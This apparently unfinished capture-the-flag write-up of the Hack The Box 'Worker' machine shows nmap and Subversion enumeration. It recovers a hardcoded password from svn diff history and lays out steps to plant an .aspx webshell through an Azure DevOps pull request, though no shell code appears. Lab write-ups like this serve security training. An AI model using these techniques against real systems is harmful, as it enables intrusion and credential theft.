# HTB - Worker

## Overview



Short description to include any strange things to be dealt with

TODO: Finish writing and clean up

## Useful Skills and Tools

### Interactive Windows Command/Tool List

[https://wadcoms.github.io/](https://wadcoms.github.io/)

> WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.203`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nmap -sCV -n -p- -v 10.10.10.203                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-28 18:40 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 18:40
Completed NSE at 18:40, 0.00s elapsed
Initiating NSE at 18:40
Completed NSE at 18:40, 0.00s elapsed
Initiating NSE at 18:40
Completed NSE at 18:40, 0.00s elapsed
Initiating Ping Scan at 18:40
Scanning 10.10.10.203 [2 ports]
Completed Ping Scan at 18:40, 0.06s elapsed (1 total hosts)
Initiating Connect Scan at 18:40
Scanning 10.10.10.203 [65535 ports]
Discovered open port 80/tcp on 10.10.10.203
Connect Scan Timing: About 18.58% done; ETC: 18:42 (0:02:16 remaining)
Connect Scan Timing: About 46.95% done; ETC: 18:42 (0:01:09 remaining)
Discovered open port 5985/tcp on 10.10.10.203
Discovered open port 3690/tcp on 10.10.10.203
Completed Connect Scan at 18:41, 105.47s elapsed (65535 total ports)
Initiating Service scan at 18:41
Scanning 3 services on 10.10.10.203
Completed Service scan at 18:42, 6.09s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.203.
Initiating NSE at 18:42
Completed NSE at 18:42, 1.01s elapsed
Initiating NSE at 18:42
Completed NSE at 18:42, 0.20s elapsed
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Nmap scan report for 10.10.10.203
Host is up (0.044s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.30 seconds
```

3 ports open: 80 - HTTP, 3690 - Subversion, and 5985 - Presumably WinRM

### Port 80 - HTTP



nothing but default IIS on port 80, dirbuster revealed nothing of use

### Port 3690 - Subversion

[http://svnbook.red-bean.com/](http://svnbook.red-bean.com/)

[http://svnbook.red-bean.com/en/1.7/svn-book.pdf](http://svnbook.red-bean.com/en/1.7/svn-book.pdf)

> To get a working copy, you must check out some subtree of the repository. \(The term check out may sound like it has something todo with locking or reserving resources, but it doesn't; it simply creates a working copy of the project for you.\) For example, if you check out /calc, you will get a working copy like this: `$ svn checkout http://svn.example.com/repos/calcA calc/MakefileA calc/integer.cA calc/button.cChecked out revision 56.`

installed subversion `sudo apt install subversion`

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ svn checkout http://10.10.10.203 
svn: E170013: Unable to connect to a repository at URL 'http://10.10.10.203'
svn: E175003: The server at 'http://10.10.10.203' does not support the HTTP/DAV protocol
```

Was not able to connect the to page as HTTP, but after some reading found that there is a `SVN://` protocol.

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ svn checkout svn://10.10.10.203
A    dimension.worker.htb
A    dimension.worker.htb/LICENSE.txt
A    dimension.worker.htb/README.txt
A    dimension.worker.htb/assets
A    dimension.worker.htb/assets/css
A    dimension.worker.htb/assets/css/fontawesome-all.min.css
A    dimension.worker.htb/assets/css/main.css
A    dimension.worker.htb/assets/css/noscript.css
A    dimension.worker.htb/assets/js
A    dimension.worker.htb/assets/js/breakpoints.min.js
A    dimension.worker.htb/assets/js/browser.min.js
A    dimension.worker.htb/assets/js/jquery.min.js
A    dimension.worker.htb/assets/js/main.js
A    dimension.worker.htb/assets/js/util.js
A    dimension.worker.htb/assets/sass
A    dimension.worker.htb/assets/sass/base
A    dimension.worker.htb/assets/sass/base/_page.scss
A    dimension.worker.htb/assets/sass/base/_reset.scss
A    dimension.worker.htb/assets/sass/base/_typography.scss
A    dimension.worker.htb/assets/sass/components
A    dimension.worker.htb/assets/sass/components/_actions.scss
A    dimension.worker.htb/assets/sass/components/_box.scss
A    dimension.worker.htb/assets/sass/components/_button.scss
A    dimension.worker.htb/assets/sass/components/_form.scss
A    dimension.worker.htb/assets/sass/components/_icon.scss
A    dimension.worker.htb/assets/sass/components/_icons.scss
A    dimension.worker.htb/assets/sass/components/_image.scss
A    dimension.worker.htb/assets/sass/components/_list.scss
A    dimension.worker.htb/assets/sass/components/_table.scss
A    dimension.worker.htb/assets/sass/layout
A    dimension.worker.htb/assets/sass/layout/_bg.scss
A    dimension.worker.htb/assets/sass/layout/_footer.scss
A    dimension.worker.htb/assets/sass/layout/_header.scss
A    dimension.worker.htb/assets/sass/layout/_main.scss
A    dimension.worker.htb/assets/sass/layout/_wrapper.scss
A    dimension.worker.htb/assets/sass/libs
A    dimension.worker.htb/assets/sass/libs/_breakpoints.scss
A    dimension.worker.htb/assets/sass/libs/_functions.scss
A    dimension.worker.htb/assets/sass/libs/_mixins.scss
A    dimension.worker.htb/assets/sass/libs/_vars.scss
A    dimension.worker.htb/assets/sass/libs/_vendor.scss
A    dimension.worker.htb/assets/sass/main.scss
A    dimension.worker.htb/assets/sass/noscript.scss
A    dimension.worker.htb/assets/webfonts
A    dimension.worker.htb/assets/webfonts/fa-brands-400.eot
A    dimension.worker.htb/assets/webfonts/fa-brands-400.svg
A    dimension.worker.htb/assets/webfonts/fa-brands-400.ttf
A    dimension.worker.htb/assets/webfonts/fa-brands-400.woff
A    dimension.worker.htb/assets/webfonts/fa-brands-400.woff2
A    dimension.worker.htb/assets/webfonts/fa-regular-400.eot
A    dimension.worker.htb/assets/webfonts/fa-regular-400.svg
A    dimension.worker.htb/assets/webfonts/fa-regular-400.ttf
A    dimension.worker.htb/assets/webfonts/fa-regular-400.woff
A    dimension.worker.htb/assets/webfonts/fa-regular-400.woff2
A    dimension.worker.htb/assets/webfonts/fa-solid-900.eot
A    dimension.worker.htb/assets/webfonts/fa-solid-900.svg
A    dimension.worker.htb/assets/webfonts/fa-solid-900.ttf
A    dimension.worker.htb/assets/webfonts/fa-solid-900.woff
A    dimension.worker.htb/assets/webfonts/fa-solid-900.woff2
A    dimension.worker.htb/images
A    dimension.worker.htb/images/bg.jpg
A    dimension.worker.htb/images/overlay.png
A    dimension.worker.htb/images/pic01.jpg
A    dimension.worker.htb/images/pic02.jpg
A    dimension.worker.htb/images/pic03.jpg
A    dimension.worker.htb/index.html
A    moved.txt
Checked out revision 5.
```

there were quite a few files here, and a subdomain `dimension.worker.htb`. I added `worker.htb` and `dimension.worker.htb` to my hosts file

```text
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

The file `moved.txt` contained a message stating that the repo has been moved to another castle `devops.worker.htb`. I added this one to my hosts file as well



```text
     <!-- Work -->
             <article id="work">
                     <h2 class="major">Work</h2>
                     <span class="image main"></span>
                     <p>Curios on what we're currently working on are you? Well let's please you with a couple of teasers.</p>
                     <a href="http://alpha.worker.htb/">Alpha</a><p>This is our first page</p>
                     <a href="http://cartoon.worker.htb/">Cartoon</a><p>When we're not working we enjoy watching cartoons. Guess who in our team is what cartoon character!</p>
                     <a href="http://lens.worker.htb/">Lens</a><p>This page is for you 40+:ers. Can you read it?</p>
                     <a href="http://solid-state.worker.htb/">Solid State</a><p>We save our data in our datacenter on blazing fast solid-state storage.</p>
                     <a href="http://spectral.worker.htb/">Spectral</a><p>Sounds almost like one of our favourite agents movies, but we also enjoy Hamilton</p>
                     <a href="http://story.worker.htb/">Story</a><p>Lets make a long story short, end of story</p>
```

The file `index.html` contained another list of subdomains; again added to hosts


Worker homepage using dimension theme



Links to other pages


Cartoon character page, possible usernames?  The other pages did not contain anything that looked useful, so moved on to the `devops` domain I found earlier.



The `devops` page required authentication

```text
┌──(zweilos㉿kali)-[~/htb/worker/devops]
└─$ svn log svn://devops.worker.htb
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 09:52:00 -0400 (Sat, 20 Jun 2020) | 1 line

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 09:50:20 -0400 (Sat, 20 Jun 2020) | 1 line

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 09:46:19 -0400 (Sat, 20 Jun 2020) | 1 line

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 09:45:16 -0400 (Sat, 20 Jun 2020) | 1 line

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 09:43:43 -0400 (Sat, 20 Jun 2020) | 1 line

First version
------------------------------------------------------------------------
```

Next, I used the `log` command and found the commit notes that described some of the progress that had been made on the repository.

```text
┌──(zweilos㉿kali)-[~/htb/worker/devops]
└─$ svn diff -r 1                                                                                   1 ⨯
Index: moved.txt
===================================================================
--- moved.txt   (nonexistent)
+++ moved.txt   (revision 5)
@@ -0,0 +1,5 @@
+This repository has been migrated and will no longer be maintaned here.
+You can find the latest version at: http://devops.worker.htb
+
+// The Worker team :)
+

┌──(zweilos㉿kali)-[~/htb/worker/devops]
└─$ svn diff -r 2
Index: deploy.ps1
===================================================================
--- deploy.ps1  (revision 2)
+++ deploy.ps1  (nonexistent)
@@ -1,6 +0,0 @@
-$user = "nathen" 
-$plain = "wendel98"
-$pwd = ($plain | ConvertTo-SecureString)
-$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
-$args = "Copy-Site.ps1"
-Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
Index: moved.txt
===================================================================
--- moved.txt   (nonexistent)
+++ moved.txt   (revision 5)
@@ -0,0 +1,5 @@
+This repository has been migrated and will no longer be maintaned here.
+You can find the latest version at: http://devops.worker.htb
+
+// The Worker team :)
+

┌──(zweilos㉿kali)-[~/htb/worker/devops]
└─$ svn diff -r 3
Index: deploy.ps1
===================================================================
--- deploy.ps1  (revision 3)
+++ deploy.ps1  (nonexistent)
@@ -1,7 +0,0 @@
-$user = "nathen" 
-# NOTE: We cant have my password here!!!
-$plain = ""
-$pwd = ($plain | ConvertTo-SecureString)
-$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
-$args = "Copy-Site.ps1"
-Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
\ No newline at end of file
Index: moved.txt
===================================================================
--- moved.txt   (nonexistent)
+++ moved.txt   (revision 5)
@@ -0,0 +1,5 @@
+This repository has been migrated and will no longer be maintaned here.
+You can find the latest version at: http://devops.worker.htb
+
+// The Worker team :)
+

┌──(zweilos㉿kali)-[~/htb/worker/devops]
└─$ svn diff -r 4
Index: moved.txt
===================================================================
--- moved.txt   (nonexistent)
+++ moved.txt   (revision 5)
@@ -0,0 +1,5 @@
+This repository has been migrated and will no longer be maintaned here.
+You can find the latest version at: http://devops.worker.htb
+
+// The Worker team :)
+

┌──(zweilos㉿kali)-[~/htb/worker/devops]
└─$ svn diff -r 5
```

I checked the changes that had been made in each revision, and found that at one point a username and password had been hardcoded in the file `deploy.ps1`

```text
-$user = "nathen" 
-$plain = "wendel98"
```

This credential set did not work for logging into the devops page, nor for WinRM. After getting no progress for awhile, I reset the box and the login worked for the devops page, still not for WinRM

### The Azure DevOps Portal



[https://azure.microsoft.com/en-us/resources/videos/smarthotel360-demo-app-overview/](https://azure.microsoft.com/en-us/resources/videos/smarthotel360-demo-app-overview/)

After logging in, I found myself in a Azure DevOps portal as the user named `ekenas`.




When I clicked on the profile picture, I found the user's name and domain login information.



I checked through the user's settings, but there wasn't anything useful. 



Under the `ekenas` repository, there was a project for something called `SmartHotel360`



Under the Members section of the project I found icons for 2 other users.



template for a page?



Under SmartHotel360 there was a mostly empty project called `w45ty45t`.

In all, found 3 usernames, and a possible password `w45ty45t`

### Crafting an .aspx reverse shell

None of the usernames or potential passwords got me anywhere, so I began to look closer at what I was able to do in the `SmartHotel360` repository.

lots of screenshots -&gt; description - had to: 1. create new branch 2. upload file to new branch 3. add work item to commit 4. approve commit 5. wait for build to complete 6. merge with master 7. navigate to webshell


```text
TF402455: Pushes to this branch are not permitted; you must use a pull request to update this branch.
```

Tried to push a file uploaded through the web portal but got the above message


Tried creating a new branch of the project called `test`.



The build takes so long that the cleanup takes place too quickly to do anything... \(I think I must have finished creating my test branch just before the cleanup script or whatever cleared it the first time I did this\)



Next I created a new pull request, trying to upload an `.aspx` file to see if I could get code execution.



After I submitted the pull request I had to approve it.  Luckily this user had the necessary permissions.



Approved the file pull request and completed it.  If you have problems, make sure to check the `Policies` section on the right, as it does checks that have to be met first.

